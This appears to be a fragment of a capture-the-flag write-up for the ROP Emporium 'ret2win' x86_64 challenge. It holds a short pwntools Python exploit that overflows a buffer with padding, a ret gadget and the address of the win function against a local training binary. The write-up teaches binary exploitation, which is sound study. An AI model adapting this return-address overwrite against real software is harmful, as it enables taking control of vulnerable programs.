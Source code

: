 
Here's an refernce of a function call stack for your convenience. 
![7596f28e1c76bc43f2a487df4a178abd.png](../_resources/286731686f3b40dcb942cbde848a61d7.png)


- Exploit source code written in python3 using pwntool 



```
# https://ropemporium.com/challenge/ret2win.html
# ROPE{a_placeholder_32byte_flag!}
# x86_64
# ropemporium.com
# https://github.com/aditya0x80/writeups/blob/main/ropemporium/ret2win.py
from pwn import *

exp = process("./ret2win")
ret2win = p64(0x400756)
padding = b'A'*40
ret = p64(0x40053e)
payload = padding + ret + ret2win
exp.sendline(payload)
print(exp.recvall().decode())

```
